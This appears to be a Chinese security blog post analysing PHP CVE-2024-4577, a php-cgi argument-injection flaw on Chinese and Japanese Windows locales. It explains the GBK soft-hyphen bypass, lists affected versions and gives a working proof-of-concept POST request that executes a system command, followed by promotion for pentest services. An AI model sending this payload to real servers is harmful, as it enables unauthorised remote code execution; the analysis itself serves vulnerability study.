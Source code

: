 #  实战-最新PHP-RCE+详细分析(CVE-2024-4577)   
原创 Gatsby  极梦C   2024-06-08 11:16  
  
前言  
  
最新PHP-RCE详细分析(CVE-2024-4577)  
  
是一种对  
CVE-2012-1823的一种绕过  
  
  
不是星标不推送文章了。  
  
师傅也不想吧~  
  
快把  
极梦C设置成星标吧。  
  
  
  
前身  
  
  
最新的php rce是建立在CVE-2012-1823基础上的一次编码绕过，而CVE-2012-1823的成因简单来说就是在CGI模式下，用户请求的querystring被作为了php-cgi的参数传递给php-cgi.exe成功解析执行，造成RCE。  
  
```
php-cgi.exe接收的参数
-c 指定php.ini文件的位置
-n 不要加载php.ini文件
-d 指定配置项
-b 启动fastcgi进程
-s 显示文件源码
-T 执行指定次该文件
-h和-? 显示帮助
-s查看元件源码
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlMEHnc63sf8ID6bG5b6p08viabSa9FdQx1r2QmgrEFoU7SoSjiaR5ZptZC0RTV5gpdFjdh8rHHQVnw/640?wx_fmt=png&from=appmsg "")  
  
攻击过程  
  
  
urlcode编码中%3D为=,%3A为:  -d allow_url_include=on控制允许在include、include_once、require、require_once等函数中使用URL作为文件名，可以远程url加载执行php代码-d auto_prepend_file=php://inputphp://input流通常用于读取POST数据，而-d auto_prepend_file则指定了包含的php脚本为POST输入  
  
  
所以使用以下payload就使得能够允许文件包含，而文件包含是读入的POST数据流作为脚本.  
  
poc如下：  
  
```
POST /index.php?-d+allow_url_include%3Don+-d+auto_prepend_file%3Dphp%3A//input HTTP/1.1
Host: xxxxx.com
Content-Length: 25

<?php system("whoami");?>
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlMEHnc63sf8ID6bG5b6p084GCiahuJJnC0Stj9uMUibPexAkUsbInaL9q6CDQYpjI4pDc8AhaBbhtA/640?wx_fmt=png&from=appmsg "")  
  
后面官方修补的补丁中也就是把”-”这个字符给匹配过滤了  
  
而最新版的RCE之所以只会影响繁体中文、简体中文、日文这三个语言版本的windows系统，  
  
就是因为有大神找到了-的编码绕过方式，在我们带入参数拼接前宽字节会被转换，0x00ad显然不是一个完整的字节，而是一部分字节。  
  
  
而在中文GBK编码中正好可以找到一个-来对其进行%ad编码从而绕过  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlMEHnc63sf8ID6bG5b6p087tBfME2m27C61WwzSyvxrgnmLYj8ia1bdgD1QprTEAMLYovykmGdg8Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlMEHnc63sf8ID6bG5b6p08iaCE2mAiblcUiaAPhGYTuFBLXHwkIfyWwtiawehIpIAYQorjpuyAxWPxcQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlMEHnc63sf8ID6bG5b6p08MjjJLz78dxEibayjWGIKERqduCesX9WmeWibHkespqLAcm9T75nHxuwg/640?wx_fmt=png&from=appmsg "")  
  
实战截图  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlMEHnc63sf8ID6bG5b6p08ibiaJuvjXcloGl78cyUmcfibq8T3UnagGJDV50aA4qmRFcZDq7N1nRAAw/640?wx_fmt=png&from=appmsg "")  
  
  
总结  
  
  
1.具有简体中文、繁体中文、日文的Windows系统，支持bestfit936 GBK编码  
  
2.	开发是在CGI(单PHP)环境中，利用条件很苛刻  
  
3.  
PHP局限在一定的版本  
  
  
提醒  
  
  
phpstudy集成中没漏洞版本。  
  
漏洞版本:  
  
        PHP 8.3 < 8.3.8                
  
        PHP 8.2 < 8.2.20            
  
        PHP 8.1 < 8.1.29  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
承接红蓝对抗,安全众测,安全培训,SRC培训,代码审计,渗透测试,  
应急响应,免杀等.  
  
(  
安全可靠,排名稳定,战绩可查.  
)  
  
  
  
  
  
  
  
  
  
  
  
  
**星球内容**  
  
正式运营星球:  
  
1.src真实漏洞挖掘案例分享(永久不定时更新),过程详细一看就会哦。2.自研/二开等工具/平台的分享。3.漏洞分析/资料共享等。  
  
  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlX35A5dqqibBHic3oEWTbTpbylJlHkMPgSQMmWjibT53vcuN61Lq9GTnv8jByMm8VwDfkrSicok5ibWZA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlX35A5dqqibBHic3oEWTbTpb32IeKkcDcHPpBowfT8j9icCVPItPaDdNs0liaUqDNLksmhpGpCp3Q05w/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlX35A5dqqibBHic3oEWTbTpb0oaLpENCfpxATTSY3bILwibIbxiaEcWeExDZ642h345GAQsvhZvmjo0Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmuqib0x4yT0TT6icYMyR1tLz7alpqZuzwFkLpypdkpMfx2dNNFjkaoPxmEBsGSy1cknnibaR1oKW6mA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmuqib0x4yT0TT6icYMyR1tLzrFXyia2GhKl9L22tStIEIru8aSlso95Md9asCGFGnHdqvVW6H9UXQeQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmuqib0x4yT0TT6icYMyR1tLzMCrslouPl5wzysOaZ6GIpwfaZ1L0NCFwnwu8lZ6oXIjpresJ3MfQYA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmuqib0x4yT0TT6icYMyR1tLzp18hvAZVuvhwiaYoEBia6nK5HET8ltnnAMHeEKtjlbjSicMQ1GY07J1nQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmuqib0x4yT0TT6icYMyR1tLzXJtMGdicLibDYnHqp9Dl7Rge4u0PkJKU1EsiceZBbVb97GB4d0LicEj5Lw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmjh5T2BWl7sh6ibOqyW3WJs5iaZkV6fibKHBKBEbLRGibibxAnH0Xib0lV7TEVowYW6cc9lIxdLm40zMiaw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmjh5T2BWl7sh6ibOqyW3WJsDawzjlOuS14heZX9Ax3ILJB3l8DLu0aibBrwQoPdZZbo0EGlnTbMOOw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmjh5T2BWl7sh6ibOqyW3WJsyDpZjQm83zhVsbDfbE9hpHfNXJ4HwE4gT9gAWUy6KnabUT5licIUTuA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSmjh5T2BWl7sh6ibOqyW3WJs7aU4jAFIicWHNNFE2JYdxp7YgeaOicrjiajBkTJoh04Kn22JNOXe1wAiaw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSkapr9ibNichibdQvJRftuppYvBJ59bRw5U7Z7SJrjjJIzrc1hkt0KA0fYwem40ic38QUxSYKUrPtnXnw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSkapr9ibNichibdQvJRftuppYvwgaZYIqtr1sANR78ItvL2WHzevCxgxcMnVVIO1ic9icN0el1sagY8cTg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSkapr9ibNichibdQvJRftuppYvIEI0c5l4xahhibPpsyeCOxibnPYBlwxp0Ur1qggMicTqjQ0CjYmybqY8w/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSkapr9ibNichibdQvJRftuppYvqa0Ljd3KNKiaiaVRHOVO2J6UMQp7NaATEjA8Offk95pgqU0QoQ5kwYmw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSl9WoxvpvP82uRH1icibXgibmnxENltLsziaPGpmiaETT88fVsxsP27BeKmSygjlOqP4EiaHibcqF8nxjBHg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSl9WoxvpvP82uRH1icibXgibmnmIvT9OAicFGJTRFAesAIOlHmjV9n3GEd6p7cLia2PMmx8mOiaBq364QvA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSl9WoxvpvP82uRH1icibXgibmnicQQBrS8TSFaAEB4Fn0aXe7U1yUTFgAdV2xrlaGgBHCibAknIyPs1vMA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSl9WoxvpvP82uRH1icibXgibmnial7HAVjwsvE6kJ5kiarSSVsCiczcKYNH3XeZDnDRxziayyGDenaoOKXvg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlgTbk0KyY4C4MGX2mwfnoFZLA5YgPHPuicRiaMQx5u9W2m714Pib1fhKclZDaHomrffqYWDvd5WJdew/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlgTbk0KyY4C4MGX2mwfnoFHTKAB5KEEC5RicaErl9j7gicSql43JARkLUd8Oruoxx2Sq8f4osF3JibA/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSnr7SlwGhKoiasYiafFqzG1XichI6kcicxRGXc1rOZVjlCePs8ZpKyl6cazYKTUoNhhc76zOsdGlAeIaw/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSnr7SlwGhKoiasYiafFqzG1XicicFcU3cmGric3yjbAtkygkdI4YDkkyvdHD1YGH403f5zVbwrh5Aevkbw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSnr7SlwGhKoiasYiafFqzG1XicCG2eqITmBTvTibuP9tHxzqpiajO39odva0icdw2S37sbMfZBgRGQVxCQA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSnr7SlwGhKoiasYiafFqzG1XicibdibfcCYQV0cP5DAUQG2u05S5j5W6KeM8f8sFJia60fxyFBDHExorbZw/640?wx_fmt=png "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSliaepxgObwEg6xDKmF21o9ftUibLopE3Xs5Z9Dm52Q7Lox57X1d89mrun3eWyUCKSTXMyYIibUV3lKg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSliaepxgObwEg6xDKmF21o9fv8s8kH1c2Mwhp8MWLprcJxYVPlJU9NvP0FXIo2Z1FaToFseFnhSo5w/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlgibAqLicdJhGfNibkKZuz7LyrXTSCkVF07J5UWcbSTbYDqvre92c64WodqibfEHVjwyUl1hEpJbA5Qw/640?wx_fmt=png "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlgibAqLicdJhGfNibkKZuz7LymhLLRcsNtIh7fnAkKbPqT39YtbqGialEDia6MCZko0yhoXeS4EYZvIJQ/640?wx_fmt=png "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PZCtvaaOQSlXZLdyZDEnDHIC8NClibLOHfsEbqX5Efd2DtZSrez5b3ib8dRHeiaYOP8eRn3ibDt7ZFE0vIiaGjBhWbw/640?wx_fmt=png "")  
  
  
  
  
  
  
  
  
关于文章/Tools获取方式:请关注交流群或者知识星球。  
  
  
  
  
  
  
  
  
  
  
  
关于交流群：因为某些原因，更改一下交流群的获取方式:  
  
1.请点击  
联系我们->联系官方->客服小助手添加二维码拉群 。    
  
![](https://mmbiz.qpic.cn/mmbiz_png/1kZ9ibb5tl5Cia8Pe5Tln5a1lCBThxiaRvVvH8JJuXhTTsErgic1iasMfD6PWd4XXT4LBvDic60A9GCzEIP8PXo0Kchg/640?wx_fmt=png "")  
  
  
  
  
  
  
  
  
关于知识星球的获取方式:  
  
1.后台回复发送 "  
知识星球"，即可获取知识星球二维码。  
  
2如若上述方式不行，请点击  
联系我们->联系官方  
->客服小助手添加二维码进入星球 。    
  
3.为了提高质量,  
推出"  
免费名人堂"  
名额,  
后台回复发送 "  
知识星球  
"了解详情。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1kZ9ibb5tl5Cia8Pe5Tln5a1lCBThxiaRvVvH8JJuXhTTsErgic1iasMfD6PWd4XXT4LBvDic60A9GCzEIP8PXo0Kchg/640?wx_fmt=png "")  
  
  
  
  
  
  
  
  
  
  
免责声明  
  
  
          
  
  
本公众号文章以  
技术分享学习为目的。  
  
由于传播、利用本公众号发布文章而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号及作者不为此承担任何责任。  
  
一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/ibZ6uZjjH3v7LQZwTb4qED3KvozKicnJd9ejpVoCntCRqf53IiaK2T3myzcUn5sswkUPfpQj1KHAALFcMFNYjfriaw/640?wx_fmt=gif "")  
  
  
  
  
  

